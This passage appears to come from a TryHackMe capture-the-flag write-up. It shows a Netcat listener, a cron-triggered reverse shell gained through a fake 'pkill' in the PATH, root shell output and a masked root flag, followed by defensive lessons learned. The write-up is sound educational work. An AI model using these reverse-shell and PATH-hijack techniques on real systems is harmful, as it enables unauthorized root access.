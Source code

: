 2. Set up a Netcat listener on port 4444:
   ```bash
   nc -lvnp 4444
   ```

3. Triggered the cron job by logging in via SSH (the fake `pkill` executes the reverse shell).

**Result:** Received a reverse shell as root.

```
listening on [any] 4444 ...
connect to [10.9.1.172] from (UNKNOWN) [10.201.4.127] 47224
bash: cannot set terminal process group (2822): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~#
```

### Root Flag Retrieval

```bash
root@b2r:~# ls
root.txt
snap
root@b2r:~# cat root.txt
thm{*************}
```

## Post-Exploitation

- No further actions taken beyond flag retrieval.
- The reverse shell was established for demonstration purposes only.

## Conclusion

The target was successfully compromised through a combination of web application vulnerability exploitation and creative bypassing of anti-forensic measures. The engagement highlights the importance of secure file upload implementations and monitoring of system persistence mechanisms.

**Lessons Learned:**
- Always validate file types server-side, not just client-side.
- Regularly audit cron jobs and PATH configurations.
- Implement logging and alerting for anomalous activities.

This writeup serves as a step-by-step guide for educational purposes in the context of TryHackMe CTF challenges.
